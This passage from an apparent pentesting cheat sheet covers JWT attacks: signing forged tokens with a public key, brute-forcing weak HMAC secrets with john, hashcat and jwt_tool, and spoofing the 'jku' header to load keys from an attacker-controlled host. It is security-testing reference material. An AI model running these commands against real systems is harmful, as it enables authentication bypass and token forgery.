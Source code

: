 ```python
```
{% endtab %}

{% tab title="jwt_tool.py" %}
```bash
python3 jwt_tool.py <JWT> -S hs256 -k public.pem
```
{% endtab %}
{% endtabs %}

### Weak HMAC secret (Brute Force)

If the JWT is signed using an HMAC-based algorithm (such as HS256, HS384 or HS512), the security of the signature depends entirely on the strength of the secret key used in the HMAC.

If the application is using open source software, the first step should be to investigate the code, and see if there is a default HMAC signing key used.

If there is no default key, then it may be possible to guess or force it.

{% tabs %}
{% tab title="john|hashcat" %}
```bash
jwt2john <JWT>
```

```bash
# John:
john --format=HMAC-SHA256 --wordlist=rockyou.txt jwt.txt
# Hashcat:
hashcat -m 16500 -a 0 jwt.txt .\wordlists\rockyou.txt
```
{% endtab %}

{% tab title="jwt_tool.py" %}
```bash
python3 jwt_tool.py -C -d /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt <JWT>
```
{% endtab %}
{% endtabs %}

### JWKS Spoofing

If the token uses a “jku” Header claim then check out the provided URL. This should point to a URL containing the JWKS file that holds the Public Key for verifying the token. Tamper the token to point the jku value to a web service you can monitor traffic for.

If you get an HTTP interaction you now know that the server is trying to load keys from the URL you are supplying.

#### Detection

```bash
# Decode the JWT header:
echo -n 'eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9leGFtcGxlLmNvbS9qd2tzLmpzb24ifQ' | base64 -d
{"typ":"JWT","alg":"RS256","jku":"http://example.com/jwks.json"}
# Modify the value of "jku" and encode it in base64:
echo -n '{"typ":"JWT","alg":"RS256","jku":"http://<YOUR-IP>/jwks.json"}' | base64 -w 0
```
